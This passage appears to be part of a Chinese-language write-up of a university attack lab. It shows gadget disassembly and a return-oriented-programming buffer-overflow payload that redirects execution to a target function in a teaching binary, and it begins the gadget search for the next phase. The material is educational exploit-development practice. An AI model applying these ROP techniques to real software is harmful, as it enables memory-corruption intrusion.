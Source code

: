 ```asm
00000000004019a0 <addval_273>:
  4019a0:   8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
  4019a6:   c3                      ret 
        # 4019a2: 48 89 c7                movq   %rax,%rdi
        # 4019a5: c3                      ret
```

所以如果可以利用 `pop` 将 `%rax` 赋值，再利用 `movq` 赋值给 `%rdi`，即可实现目标。

`pop` 指令的效果是将当前栈顶（`%rsp` 的指向位置）弹出，并赋值给它的操作数，所以 `pop %rax` 会把当前的栈顶赋值给 `%rax`。可以想到这样的流程：

1. 首先利用 `ret` 进入 `0x4019ab`，在这里将栈顶的 `cookie` 弹出；
2. 再 `ret` 到 `0x4019a2`，赋值给 `%rdi`；
3. 然后再 `ret` 到 `touch2` 中完成目标。

和 `Part 1` 使用同样的方法，将需要的内容输入即可，以上三步需要的指令和数值利用数组越界输入。

```c
buf[40] = { /* Phase 4 */
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,    /* 这里 40 字节为任意内容 */
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0xAB, 0x19, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,    /* 首先 ret 到 0x4019ab */
    0xFA, 0x97, 0xB9, 0x59, 0x00, 0x00, 0x00, 0x00,    /* 此时栈顶为 cookie，pop 给 %rax */  
    0xA2, 0x19, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,    /* ret 到 0x4019a2，在这里赋值给 %rdi */  
    0xEC, 0x17, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,    /* 最后 ret 到 touch2 */
}
```

## Phase 5

和 `Phase 3` 相似。将 `%rdi` 赋值为 存储有 `cookie` 字符数组的地址，然后进入 `touch3`。

首先仍然要将数组放在输入串中的某个位置，吸取 `Phase 3` 的教训，将数组放在整个输入串的末尾，但问题就在于如何获得输入串的地址，特别是 `cookie` 数组的地址。

输入串在栈中，因此必然要得到栈地址，即 `%rsp`。直接使用正则表达式搜索 `48 89 e[0-7]`，将 `%rsp` 作为源操作数的 `movq` 指令的 `gadget` 仅找到

```asm
0000000000401a03 <addval_190>:                          
  401a03:   8d 87 41 48 89 e0       lea    -0x1f76b7bf(%rdi),%eax
  401a09:   c3  
        # 401a06: 48 89 e0                movq   %rsp,%rax
        # 401a09: c3                      ret
```

但这只是栈顶地址，并非字符数组地址，希望获得字符数组地址需要一次偏移量运算，也就要利用提供的 `add_xy` 的完整函数，将栈顶地址和偏移量作为输入计算得到字符数组地址。`add_xy` 接受 `%rdi %rsi` 作为源操作数，返回 `%rax` 作为结果。

所以栈地址仅存放在 `%rax` 中不可行，需要再将它存入 `%rsi` 或 `%rdi` 中，再寻找从 `%rax` 输出的指令，搜索 `89 c[0-7]`，找到

```asm
00000000004019a0 <addval_273>:
  4019a0:   8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
  4019a6:   c3                      ret
        # 4019a2: 48 89 c7                movq   %rax,%rdi
        # 4019a5: c3                      ret
```
